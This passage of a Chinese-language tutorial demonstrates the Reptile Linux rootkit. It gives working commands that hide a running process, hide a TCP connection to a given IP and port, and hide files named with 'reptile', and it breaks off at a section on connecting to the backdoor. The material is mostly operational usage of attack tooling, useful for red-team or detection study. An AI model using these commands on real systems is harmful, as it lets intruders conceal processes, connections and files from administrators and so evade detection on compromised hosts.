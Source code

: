 首先，我们建立一个`ping`命令的进程并查看当前进程：

```bash
nohup ping 114.114.114.114 &
ps -ef | grep ping | grep -v grep
```

![截图](d716646880f7e885ea7b4a495e7236ce.png)

接下来，我们展示利用`reptile`进行隐藏：

- 隐藏进程：/reptile/reptile_cmd hide pid
- 显示进程：/reptile/reptile_cmd show pid

```bash
/reptile/reptile_cmd hide 6346
ps -ef | grep ping | grep -v grep
```

![截图](478b59580af5971e21c95f0af1b961c6.png)

```bash
/reptile/reptile_cmd show 6346
ps -ef | grep ping | grep -v grep
```

![截图](98b3876a83c178d387e764ee35fc7237.png)

#### 2、隐藏连接

- 隐藏连接：/reptile/reptile_cmd 【协议】【 ip】【端口】 hide
- 显示连接:：/reptile/reptile_cmd 【协议】 【 ip】【端口】 show

![截图](24f031463728cc27ee59b4f616cdb522.png)

```bash
/reptile/reptile_cmd tcp 210.36.46.183 26047 hide
netstat -anpt | grep 210.36.46.183
```

![截图](28ce0a9ef64a5cc250932e87300260d5.png)

#### 3、隐藏文件

文件名中带reptile的都会被隐藏：

```bash
mkdir reptile_yuan
mkdir yuan
ls -l
cd reptile_yuan
```

![截图](254c94be5300615a1f75526bcc002043.png)

#### 4、连接后门
